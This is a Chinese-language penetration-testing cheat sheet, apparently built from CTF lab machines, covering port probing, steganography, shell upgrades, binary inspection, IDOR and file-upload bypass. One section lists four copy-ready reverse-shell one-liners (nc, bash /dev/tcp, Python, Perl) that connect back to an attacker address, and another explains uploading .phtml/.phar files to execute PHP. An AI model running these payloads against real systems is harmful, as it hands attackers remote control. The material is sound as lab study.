


> 本文章持续更新中 
## 遇见的情况以及方法论

### 开放的非常规端口

遇见非常规端口一般使用 nc 尝试进行交互，例如 DeathStar 靶机，开放了 UDP 1440 端口，尝试使用 nc 进行交互获得回显。

```bash
┌──(kali㉿kali)-[~/Work/Kali]
└─$ nc -u 10.10.10.45 1440
?

Wrong Code!!
We'll notify Commander Tarkin of this offense
```

使用 echo 传输字符串并通过 nc 链接端口。

```bash
┌──(kali㉿kali)-[~/Work/Kali]
└─$ echo "DS-1@OBS" | nc -u 10.10.10.45 1440
......
```

### 图片分析

图片分析一般先查看隐写情况。

```bash
┌──(kali㉿kali)-[~/Work/Kali]
└─$ steghide extract -sf x.jpg
Enter passphrase:
```

解释一下这个命令，extract 为提取模式，提取图片中隐藏的内容，-sf 为 --stegofile 的缩写，指定文件为 x.jpg。需要密码的话想到的、空密码、弱密码均值得尝试。

### Bash 逃逸

在获得初始立足点后常常 bash 的交互性并不完善，通常使用 python 的 pty 库获得一个假的、交互性相对好的 bash。

```bash
python3 -c "import pty;pty.spawn('/bin/bash');"
```

运行上面这个命令时，Python 调用 pty.spawn() 函数，创建一个伪终端（pseudo-terminal，简称 pty），并在该终端启动一个心得交互式 bash shell 进程。这个新的伪终端具有完整的交互能力，能够处理用户输入、输出以及终端控制信息（如回显密码提示）。一旦这个新的 shell 被创建就相当于处于一个真正的交互终端中。

也可以尝试下面的命令。

```bash
script -qc /bin/bash /dev/null
```

script 时 Linux 系统自带的命令，用于记录终端会话。正常使用 script 命令时，会创建一个交互式终端并将所有会话内容记录到指定文件中。这里巧用几个特殊参数：-q 静默模式，告诉 script 不要显示开始和结束的提示信息。其次是 -c /bin/bash 告诉 script 命令，直接执行并启动一个 bash shell，而非默认 shell 或其他命令。最后，指定输出文件为 /dev/null，表示会话记录被丢弃而不保存到硬盘。

### 获得 shell 的一些 反弹 shell

#### Linux

```shell
nc -e /bin/bash 10.10.10.5 4444

bash -c "/bin/bash -i >& /dev/tcp/10.10.10.5/4444 0>&1"

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.5",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

perl -e 'use Socket;$i="10.10.10.5";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### 文件属性和可识别字符

在拿到一个文件后可进行如下分析：



file 命令是识别文件类型和格式，通过分析文件头信息等数据来判断文件实际的内容与格式，从输出结果来看， /bin/dartvader 是一个 32 位的 ELF 可执行文件，并设置了 setuid 位，这意味着无论哪个用户执行这个程序，它都会以文件所有者的权限进行，动态链接表明该程序在运行时需要调用共享库，而 `not stripped` 则说明这个可执行文件中仍保留有符号信息与调试信息，这对逆向工程非常有利。在渗透测试场景下，如果测试者发现这样一个 setuid 程序，可以重点关注它是否存在提权漏洞，比如通过错误的权限验证、缓冲区溢出或者不安全的函数调用来实现提权。此外，未剥离的符号信息可能让分析人员更容易理解程序的内部逻辑，从而寻找可能的漏洞或不当行为，这对进一步的利用或者漏洞利用代码的编写往往有利，可以看一下可识别字符佐证发现。

来看这个例子：



`ELF -64-bit LSB` 表明该文件是 Linux 上常见的 ELF 格式可执行程序，架构为 64 位的 x86-64（也称 AMD64）。对反编译而言，这意味着再选职责反编译或调试工具时需要考虑 64 位指令集。`pie executable` 表明程序启用了位置无关可执行（Position Independent Executable，PIE）技术。这意味着程序每次加载到i内存中时，代码段的位置都是随机的，增加了逆向和漏洞利用的难度。反编译或漏洞的分析时必须考虑地址随机化因素。`dynamically linked` 表明程序采用动态链接，运行时依赖外部库（如标准 C 库 libc.so）。反编译过程中需要考虑并分析外部库函数的调用情况，可能需要加载外部符号或调试符号以便准确还原函数调用。`interpreter /lib64/ld-linux-x86-64.so.2` 提供了动态链接器路径，它指定程序执行时所使用的动态链接器的位置和名称。反编译和调试时，如出现共享库缺失问题或分析动态过程中的异常行为，可以通过这个链接器路径进行排查。`BuildID\[sha1\]=xxxxx` 时程序编译时生成的唯一构建标识（Build ID），可以用于明确程序版本、溯源编译信息或追踪程序来源。在逆向和取证中，可以通过此标志确定二进制文件是否发生过篡改、修改或重新编译。`for GNU/Linux 3.2.0` 指定了程序编译时所期待的 Linux 内核版本。在反编译和漏洞分析时，这有助于确定目标程序的运行环境，尤其当你考虑内核漏洞、兼容性或系统调用（syscall）行为时非常关键。

最后的 `not stripped` 表明程序未进行符号剥离。这是对反编译而言非常利好的信息。因为这意味着程序的符号表、函数名、变量名、调试信息都被保留了下来，极大简化了反编译和逆向分析的难度，更容易直接恢复接近源代码的形式。、7


```bash
┌──(kali㉿kali)-[~/Work/Kali]
└─$ strings /bin/dartVader
```

strings 默认情况下会从文件中连续提取长度大于等于 4 的字符（可通过 -n 参数调整），且属于 ASCII 可打印字符序列，其他非打印字符被忽略。在渗透测试中， string 的使用场景及其广泛，例如：渗透测试时拿到了一个可疑的 ELF 文件，运行 strings 可以快速发现硬编码的密码、域名、文件路径等敏感信息，帮助快速判断下一步攻击路径；对未知为文件快速扫描，也可以快速提取潜在可读信息，提升分析效率。


### 将文件从 ssh 中拿出

以下面这个命令为例，将 ssh 用户 erso 的 /bin/dartVader 文件下载到当前目录，指定 ssh 端口位 10110。

```bash
┌──(kali㉿kali)-[~/Work/Kali]
└─$ scp -P 10110 -q erso@10.110.10.45:/bin/dartVader .
```

### 使用 curl 将返回的内容输出为中文

```bash
┌──(kali㉿kali)-[~/Work/Kali]
└─$ curl -s http://10.10.10.45/secret | trans -b :zh
```

trans（translate-shell）是很不错的命令行翻译工具。

### IDOR 不安全直接对象引用

IDOR（Insecure Direct Object Reference，不安全的直接对象引用）是一种常见的访问控制漏洞，主要出现在 Web 应用请求的资源未进行有效的权限验证和限制的情况下。具体来说，应用程序通过用户提交的参数（如用户ID、文件名、订单号等）直接引用内部对象，却未验证当前用户是否拥有访问这些对象的权限。这种情况下，攻击者可以通过修改请求的参数值（例如 ID 号）直接访问或操作本不该被访问到的敏感信息或资源，从而实现越权访问。例如，在一个用户个人信息页面中，如果 URL 参数形如 user?id=1，攻击者只需要修改 id 值即可查看其他用户的数据。当开发者未对资源引用和权限做严格验证时，IDOR 漏洞便会产生，攻击者通过简单篡改请求参数即可实现攻击。

### 关于文件上传

有些表单原本只可以上传 jpg、git、png 等图片格式文件，为什么最终却可以上传 .phtml 和 .phar 格式文件呢？因为 .phtml 和 .phar 两种文件格式比较特殊，.phtml 是一种 PHP 常规拓展名，早期较为常见，现在虽然使用较少但依旧默认会被 PHP 引擎解析，这使得攻击者能够通过上传该格式的文件直接执行恶意 PHP 代码。而 .phar 更加特殊，它本质上是 PHP 的归档文件格式（PHP Archive），也可以执行。